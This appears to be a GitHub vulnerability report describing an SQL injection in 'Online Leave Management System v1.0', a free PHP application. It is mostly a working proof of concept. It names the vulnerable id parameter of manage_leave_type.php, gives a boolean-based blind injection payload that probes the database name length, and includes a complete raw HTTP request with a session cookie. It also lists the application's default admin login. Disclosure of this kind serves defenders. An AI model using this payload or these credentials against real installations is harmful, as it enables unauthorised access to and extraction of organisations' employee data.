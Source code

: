 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author:

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /leave_system/admin/employees/manage_leave_type.php?id

Vulnerability location: /leave_system/admin/employees/manage_leave_type.php?id=,id

dbname=leave_db,length=8

[+] Payload:  /leave_system/admin/employees/manage_leave_type.php?id=11%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /leave_system/admin/employees/manage_leave_type.php?id=11%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

length=8
![image](https://user-images.githubusercontent.com/54017627/183633907-66d690c4-228d-48b3-a37f-3b99bf566dae.png)


length=9
![image](https://user-images.githubusercontent.com/54017627/183633949-24b8326a-d7d1-4976-ae98-5698476aef74.png)

